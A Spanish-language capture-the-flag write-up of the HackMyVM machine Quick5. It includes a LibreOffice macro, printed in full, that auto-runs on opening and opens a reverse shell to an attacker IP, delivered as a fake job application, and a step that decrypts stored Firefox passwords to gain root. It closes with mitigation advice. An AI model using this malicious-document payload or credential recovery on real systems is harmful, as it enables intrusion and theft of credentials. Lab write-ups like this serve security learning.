

# Writeup: Máquina Quick5 - HackMyVM

En este writeup resolveremos la máquina **Quick5** de la plataforma HackMyVM. Empezando por la enumeración de una web con varios subdominios, conseguiremos acceso inicial aprovechándonos de un proceso de selección de personal en uno de los subdominios. La escalada de privilegios será a través de la recuperación de credenciales almacenadas por el navegador Firefox.

## Reconocimiento Inicial

Empezamos haciendo un escaneo con `nmap` para descubrir los servicios expuestos:

```bash
$>  nmap -p- --open -sSCV -n -Pn 192.168.0.27 -oN tcpScan
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 84:e8:9c:b0:23:44:41:29:ae:7d:0b:0f:fe:88:08:c0 (ECDSA)
|_  256 44:82:b7:78:47:02:7e:b4:40:c7:6b:fd:70:68:c1:42 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Quick Automative - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Parece que el foothold tendrá que ser via web, vamos a centrarnos en el puerto 80. Acostumbro a usar `whatweb` para extraer tecnologías e información de cabecera:

```bash
$> whatweb http://192.168.0.27
http://192.168.0.27 [200 OK] Apache[2.4.52], Bootstrap[4], Country[RESERVED][ZZ], Email[book@quick.hmv,info@quick.hmv,tech@quick.hmv], Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.27], JQuery[3.4.1], Script, Title[Quick Automative - Home]
```

Obtenemos varios correos (`book@quick.hmv`, `info@quick.hmv`, `tech@quick.hmv`) y confirmamos el dominio `quick.hmv`. Decido visitar la página web para echarle un ojo y hay dos cosas que me llaman la atención:
- Se muestran los nombres de 8 empleados, nos serviría para construir un diccionario de posibles usuarios 
- Existen dos formularios de contacto para enviar mensajes, donde podríamos probar inyecciones

Haciendo hovering sobre algunos apartados de la web, puedo ver los subdominios `careers.quick.hmv` y `customer.quick.hmv`.  Parece que se hace uso de **virtual hosting**, por lo que podríamos fuzzear en busca de más subdominios. De momento incluyo `careers` y `customer` al `/etc/hosts`.

Al visitar `customer.quick.hmv`, se muestra el siguiente mensaje:

> "This page is under maintenance due to a security incident."

Enseguida se me ocurre que puede existir un backdoor que nos permita el foothold inicial. Vamos a seguir con el reconocimiento, como hemos dicho antes, enumerando subdominios (realmente vhosts) con `gobuster`:

```bash
$> gobuster vhost -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://quick.hmv -r --append-domain
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
careers.quick.hmv Status: 200 [Size: 13819]
customer.quick.hmv Status: 200 [Size: 2258]
employee.quick.hmv Status: 200 [Size: 2258]
===============================================================
Finished
===============================================================
```

Aparece un nuevo subdominio, `employee.quick.hmv`. Lo añado a `/etc/hosts`, pero al visitar la web muestra el mismo contenido que `customer.quick.hmv`.

Sigo trasteando la web y veo que en `careers.quick.hmv`podemos aplicar a un puesto de trabajo. El formulario pide adjuntar dos archivos (currículum y carta), que pueden estar en formato `.odt` o `.pdf`. Podemos asumir que habrá alguien de la empresa revisando estos archivos, así que esto es lo mejor que tenemos hasta ahora como posible vector de entrada.

## Acceso inicial

Hago un poco de investigación y encuentro el siguiente [recurso](https://medium.com/@akshay__0/initial-access-via-malicious-odt-macro-ac7f5d15796d) que explica cómo crear una macro maliciosa en un archivo `.odt` que nos envíe una reverse shell.

Abrimos LibreOffice, escribimos cualquier cosa y guardamos el documento. Después creamos una macro para el documento con el siguiente contenido:

```basic
Sub Main
    shell("bash -c 'bash -i >& /dev/tcp/192.168.0.43/443 2>&1'")
End Sub
```

Configuramos la macro para se ejecute automáticamente al abrir el archivo y guardamos el documento. Ahora simplemente preparamos el listener en nuestra máquina atacante y subimos el archivo malicioso. Tras unos momentos, obtenemos una shell como `andrew`, lo que nos permite leer la primera flag.


## Escalada de Privilegios

Haciendo enumeración manual rutinaria del sistema, lanzo 
```bash
grep -r "pass" / 2>/dev/null
```
pero lo cancelo al momento porque me arroja muchísimo output. Aún así, al principio del output veo algo que me llama la atención:



Un archivo `/home/andrew/snap/firefox/common/.mozilla/firefox/ii990jpt.default/logins.json` que contiene los campos `encryptedUsername` y `encryptedPassword` entre otros. Pruebo con `hashid` y `hashcat` sin ningún resultado, así que decido buscar en internet "firefox decrypt", lo que rápidamente me lleva al siguiente [repo](https://github.com/unode/firefox_decrypt/). 


Al ejecutar la herramienta directamente, no encuentra `profiles.ini` en la ruta habitual (`~/.mozilla/firefox`). Buscando en el sistema los archivos `.ini` filtrando por el usuario `andrew`, localizamos la ruta real (resulta que Firefox está instalado vía Snap):

```bash
/home/andrew/snap/firefox/common/.mozilla/firefox/profiles.ini
```

Ejecutamos ahora con la ruta correcta:

```bash
$> ./firefox_decrypt.py /home/andrew/snap/firefox/common/.mozilla/firefox

Website:   http://employee.quick.hmv
Username: 'andrew.speed@quick.hmv'
Password: 'SuperSecretPassword'
```

Probamos la contraseña para `root` y funciona! Máquina rooteada, obtenemos la flag final.


## Detección y Mitigación

- Mensaje de mantenimiento revelando un incidente de seguridad previo — no exponer problemas de seguridad en avisos públicos
- Formulario de subida de documentos sin sandboxing — abrir archivos externos en un entorno aislado, nunca en un sistema con acceso a datos internos
- Macros habilitadas por defecto en documentos externos — deshabilitarlas o gestionar el documento de alguna forma para evitar la ejecución
- Credenciales de navegador (`logins.json`) almacenadas — activar el cifrado adicional que ofrece Firefox (contraseña maestra)
- Reutilización de contraseñas (root)
